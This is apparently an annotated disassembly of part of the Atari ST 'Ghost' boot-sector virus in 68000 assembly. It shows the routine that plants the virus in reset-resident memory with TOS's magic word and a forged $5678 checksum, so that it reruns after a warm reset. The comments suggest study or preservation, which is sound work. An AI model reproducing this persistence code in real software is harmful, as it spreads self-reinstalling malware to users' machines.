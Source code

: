 ```asm
; following contents: longword $12123456 and a longword of actual double memory page.
; Note, as said, that if this code is the zeroed range, it will be exectuted THEN erased.

RESET_VECTOR:                                           ; $194
            MOVEA.L   PHYSTOP.W,A1 				        ; Set A1 to phystop (end of mem), $80000/524288 on 520ST
                                                        ; ghost looks to install itself at a required $200 boundary page
                                                        ; at page 40 ($8000) - 1 ($200)
            SUBA.L    #RESET_VECTOR_PAGE,A1
            SUBA.L    #RESET_VECTOR_SUBPAGE,A1          ; decrease a memory page (512 bytes)

            MOVE.L    A1,D1                             ; Save location address (needed to TOS)
            ifne _DEBUG_
            MOVE.L    D1,DEBUG_ADDR.W
            endc

            MOVE.L    #RESIDENT_MAGIC,(A1)+             ; Add magic word 0x12123456 that TOS looks for
            MOVE.L    D1,(A1)+                          ; then actual memory address of the magic work

                                                        ; In successful case, TOS first does a wrd
                                                        ; checksum, which has to be $5678. If that  is correct, the code on
                                                        ; that  double  memory  page  is  executed  through JSR with return
                                                        ; address in A6.

            LEA       INSTALL_HDV_HPB(PC),A3            ; A3 = INSTALL_HDV_HPB vector routine
            LEA       HDV_HPB_VECTOR(PC),A4             ; A3 = HDV_HPB_VECTOR copy routine
COPY_INSTALL_HDV_HPB:
            MOVE.W    (A3)+,(A1)+                       ; copy INSTALL_HDV_HPB vector routine after magic word / address
            CMPA.L    A4,A3                             ; until copy routine address in reached
            BLT.S     COPY_INSTALL_HDV_HPB

            LEA       LOADER(PC),A3                     ; A3 = bootloader start
            MOVE.L    A3,(A1)+                          ; then set it at the end (why? after RTS?)

            MOVEA.L   D1,A3                             ; Reset A3 to ram top location
            CLR.W     D0                                ; clear d0 to store checksum
            MOVE.W    #$FE,D2                           ; D2 = 254 words (2 pages)
CALC_RESIDENT_CHK:
            ADD.W     (A3)+,D0                          ; Compute checksum
            DBF       D2,CALC_RESIDENT_CHK              ;
            MOVE.W    #RESIDENT_CHK,D2                  ; then substract $5678 to adjust the checksum
            SUB.W     D0,D2                             ;
            MOVE.W    D2,(A3)                           ; copy this value to the end of the virus

            MOVE.L    #0,RESVEC_ENA.W                   ; remove magic value to resvector
            MOVEA.L   ORIGINAL_RESET_VECTOR(PC),A1      ; get reset vector address in a1
            CMPA.L    #0,A1                             ; check reset vector address is empty
            BNE       RESET_VECTOR_SET                  ; if not jump to reset vector address
            JMP       (A6)                              ; else jump to original resetvec return address
RESET_VECTOR_SET:
            JMP       (A1)
```
